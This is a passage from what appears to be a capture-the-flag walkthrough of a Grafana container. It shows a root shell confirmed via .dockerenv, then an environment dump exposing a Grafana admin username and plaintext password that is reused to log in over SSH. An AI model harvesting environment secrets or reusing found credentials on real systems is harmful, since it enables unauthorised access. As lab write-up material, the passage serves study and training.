 ```shell
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

The look at `/` revealed the `.dockerenv` file and therefore we knew that we indeed got a `shell` as `root` within a `container`.

```shell
# ls -la /
total 60
drwxr-xr-x   1 root root 4096 Apr  4 10:23 .
drwxr-xr-x   1 root root 4096 Apr  4 10:23 ..
-rwxr-xr-x   1 root root    0 Apr  4 10:23 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  340 May 10 19:01 dev
drwxr-xr-x   1 root root 4096 Apr  4 10:23 etc
drwxr-xr-x   1 root root 4096 May 14  2024 home
lrwxrwxrwx   1 root root    7 Apr 27  2024 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 27  2024 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 27  2024 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 27  2024 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr 27  2024 media
drwxr-xr-x   2 root root 4096 Apr 27  2024 mnt
drwxr-xr-x   2 root root 4096 Apr 27  2024 opt
dr-xr-xr-x 290 root root    0 May 10 19:01 proc
drwx------   1 root root 4096 Apr  4 12:43 root
drwxr-xr-x   5 root root 4096 Apr 27  2024 run
-rwxr-xr-x   1 root root 3306 May 14  2024 run.sh
lrwxrwxrwx   1 root root    8 Apr 27  2024 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr 27  2024 srv
dr-xr-xr-x  13 root root    0 May 10 19:01 sys
drwxrwxrwt   1 root root 4096 May 10 20:06 tmp
drwxr-xr-x   1 root root 4096 Apr 27  2024 usr
drwxr-xr-x   1 root root 4096 Apr 27  2024 var
```

## Privilege Escalation to enzo

### Container Escape

It was not a typical `container escape` but by checking the `environment variables` we found a `username` and `password` which granted us access via `SSH` as user `enzo` on the box itself.

```shell
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=/usr/bin/sh
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
```
